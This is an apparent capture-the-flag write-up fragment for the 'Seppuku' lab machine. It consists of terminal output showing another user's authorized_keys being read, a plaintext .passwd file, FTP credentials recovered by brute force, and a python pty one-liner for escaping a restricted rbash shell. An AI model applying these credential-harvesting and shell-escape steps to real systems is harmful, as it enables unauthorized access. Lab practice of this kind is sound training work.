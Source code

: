 seppuku@seppuku:/home/tanto/.ssh$ cat authorized_keys  
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKkmXCMpd/QXhi8vaB/C+hS68Ht+4Ywx8J7jWAsKxOyV45TLYIlf6g3BVUo+mXpNgjidc8ZuLB8bOjGbQVlrsP3Kvzc6DC68wynzc6RVzAv2/7Htq0rwABVnQ2O848aS8SEHas9LaYqDXFEpcIzukDQpI6gNuT1yg6lp2ODgbR/Vg9avCnqIt8gSt9jb7mFLtDJNCm5GYe5Hh4osXU0VGnyBi40JW2vSfZS7qFa4jtFYEZBkkmiPwsqN9FFiYoanKqIZN1HL7zILIC5PnmyG4LNe5z7/ccTaMAI4Pz6lI8qPDHObh+5pJ8FNSQd/KGJIoiSinZh8gMspE8zx0afnO5

  

  

seppuku@seppuku:/home$ cd seppuku/  
seppuku@seppuku:~$ ls -la  
total 32  
drwxr-xr-x 3 seppuku seppuku 4096 Sep 1 2020 .  
drwxr-xr-x 5 root root 4096 May 13 2020 ..  
-rw-r--r-- 1 seppuku seppuku 220 May 13 2020 .bash_logout  
-rw-r--r-- 1 seppuku seppuku 3526 May 13 2020 .bashrc  
drwx------ 3 seppuku seppuku 4096 May 13 2020 .gnupg  
-rw-r--r-- 1 seppuku seppuku 33 Jun 5 06:25 local.txt  
-rw-r--r-- 1 root root 20 May 13 2020 .passwd  
-rw-r--r-- 1 seppuku seppuku 807 May 13 2020 .profile  
seppuku@seppuku:~$ cat .passwd  
12345685213456!@!@A

  

[DATA] attacking ftp://192.168.226.90:21/  
[21][ftp] host: 192.168.226.90 login: seppuku password: eeyoree

  

seppuku@seppuku:/home$ ls  
samurai seppuku tanto

  

if get a rbash, can use

```Bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```